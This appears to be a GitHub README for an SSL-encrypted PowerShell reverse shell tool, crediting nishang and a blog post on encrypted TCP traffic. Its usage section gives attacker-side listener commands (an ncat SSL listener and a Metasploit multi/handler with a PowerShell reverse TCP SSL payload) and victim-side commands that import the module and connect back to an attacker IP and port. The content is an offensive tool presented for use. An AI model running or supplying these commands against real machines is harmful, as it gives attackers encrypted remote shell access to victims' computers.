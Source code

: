 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Made with inspiration from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PoweShell: Encrypt TCP Client-Server Traffic with a self-signed X509 Certificate](https://cyberwardog.blogspot.com/2016/08/poweshell-encrypt-tcp-client-server.html)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShellSSL -Reverse -IPAddress 192.168.254.226 -Port 4646

```

#### Demonstration
https://user-images.githubusercontent.com/74554439/197293572-e702d0aa-7390-41e5-ac0e-35b2e13a93d8.mp4
